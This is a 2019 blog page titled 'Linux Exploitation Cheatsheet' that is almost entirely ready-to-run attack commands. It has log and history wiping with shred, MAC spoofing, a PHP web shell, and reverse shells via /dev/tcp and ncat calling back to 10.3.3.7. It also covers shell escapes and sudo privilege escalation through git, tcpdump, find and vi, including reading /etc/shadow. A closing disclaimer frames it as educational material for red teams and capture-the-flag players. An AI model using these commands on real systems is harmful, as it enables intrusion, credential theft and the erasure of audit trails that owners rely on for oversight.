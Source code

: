 ```yaml
---
title: Linux Exploitation Cheatsheet
date: 2019-12-22 14:40:00 -08:00
permalink: exploit-cheatsheet
categories:
- Security
tags:
- Ethical Hacking
author: Kirin
description: A Cheatsheet I have been working on that contains various Linux related
  payloads and post-exploitation methods.
blog_category: Security
---
```


### This page serves to catalog various web shells, reverse shells, privilege escalation, and other manual exploitation methods.

# --- Detection Avoidance ---  

\- Mac Spoofing -  
`ip link set dev eth0 down`  
`ip link set dev eth0 address <mac>`  
`ip link set dev eth0 up`  

\- Disable history recording -  
`unset HISTFILE ; history -c ; rm -rf ~/.*_history`  

\- Remove ALL Bash history files -  
`find / -name .bash_history -type f -exec shred -vfuz {} \; 2> /dev/null`  

\- Remove ALL LOGS -  
`for d in "$(find /var/log -type d)"; do find $d -type f -exec shred -vfuz {} \; ; rm -rf $d ; done`  

## --- Remote Shells ---  

\- PHP Web Shell -  
 `<?php system($_GET['x']);?>`  

\- /dev/tcp Reverse Shell -  
`bash -i >& /dev/tcp/10.3.3.7/1337 0>&1`  

\- ncat Reverse Shell -  
`ncat <10.3.3.7> 1337 -e /bin/bash`  

## --- Shell Spawning & Privilege Escalation ---  

\- Python -  
`echo os.system('/bin/bash')`  
`python -c 'import pty; pty.spawn("/bin/bash")'`  

\- Perl -  
`perl —e 'exec "/bin/sh";'`  

\- Ruby -  
`ruby: exec "/bin/sh"`  
`/usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)' + exec '/bin/sh'`  
(From within IRB)  
`exec "/bin/sh"`  

\- Lua -  
`lua: os.execute('/bin/sh')`  

\- Vi -  
`:!bash`  
`:set shell=/bin/bash:shell`  

\- Nmap -  
`!sh`  
`nmap -- interactive`  
(Replace me with nmap NSE code)  

\- Git -  
`sudo git help status` - then type `!/bin/bash`  

\- Tcpdump -  
1. `echo $'id\ncat /etc/shadow' > /tmp/.test`  
2. `chmod +x /tmp/.test`  
3. `sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`  

\- Find -  
`find /tmp/ -name 1 -exec bash -p \;`  

\- More/Less -  
`!/bin/bash`  

Disclaimer: It should go without saying, DO NOT use anything you find on this website for malicious purposes. This website serves to document various tools red-team members, individuals trying to solve Boot-2-Root challenges, or methods an attacker would use that IT security should understand can be used against them. This is for purely educational purposes.  
